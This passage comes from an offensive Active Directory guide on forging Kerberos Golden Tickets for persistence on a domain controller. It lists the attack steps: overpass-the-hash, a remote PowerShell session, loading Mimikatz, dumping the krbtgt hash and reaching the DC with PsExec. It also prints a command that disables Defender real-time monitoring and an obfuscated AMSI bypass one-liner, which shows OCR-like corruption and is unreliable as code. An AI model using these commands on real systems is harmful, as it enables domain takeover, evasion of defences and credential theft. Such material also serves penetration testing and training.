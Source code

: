 
Now, these are the steps of how a Kerberos system works typically. An attacker can abuse every step from the steps mentioned above to gain profit. I assume you have access to the Domain Controller and only require persistence. Since you understand how a Kerberos system works now, we can start on how to abuse these steps.

# <span style="color:lightblue">Golden Ticket</span>

* We will be abusing the 3rd step in the Kerberos system with the help of a golden ticket.
* A Golden Ticket is signed and encrypted by the hash of KRBTGT account which makes it a valid TGT ticket.
* Since user account validation is not done by Domain Controller (KDC service) until TGT is older than 20 minutes, we can use even deleted/revoked accounts.
* The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine.
* Password change has no effect on this attack.

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Get a Powershell session as a **"domain admin"** using **"Over pass the hash"** attack
- [x] 2. Create a **New-PSSession** attaching to the **"domain controller"**
- [x] 3. Enter the new session using **Enter-PSSession** 
- [x] 4. Bypass the *AMSI* 
- [x] 5. Exit
- [x] 6. Load **Mimikatz.ps1** on the new session using **Invoke-command**
- [x] 7. Enter the new session using **Enter-PSSession** *again*
- [x] 8. Now we can execute mimikatz on the DC
- [x] 9. Keep note of **krbtgt** hash
- [x] 10. Now go to any **"non domain admin"** account
- [x] 11. Load **Mimikats.ps1** 
- [x] 12. Now we can create a ticket using the DC **krbtgt** hash 
- [x] 13. Now we can access any service on the DC. Example **`ls \\dc-corp\C$`** or 
```powershell
PsExec64.exe \\adminsys.star.castle.local -u star\adminsys -p passwordhere cmd
```

## <span style="color:lightgreen">Invoke-Mimikatz</span>


### <span style="color:#F1C232">1. Disable Defender</span>
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

### <span style="color:#F1C232">2. AMSI bypass</span>

```powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{O}"-F'F', 'rE' ) ) 3; ( GeT-VariaBle ( "1Q2U" + "zX" )  -VaL_s+)."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{@}{5}" -f'Util', 'A', 'Amsi','.Management.', 'utomation.','s', 'System' ))."g`etf`iE1D"( ( "{O}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{O}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )
```
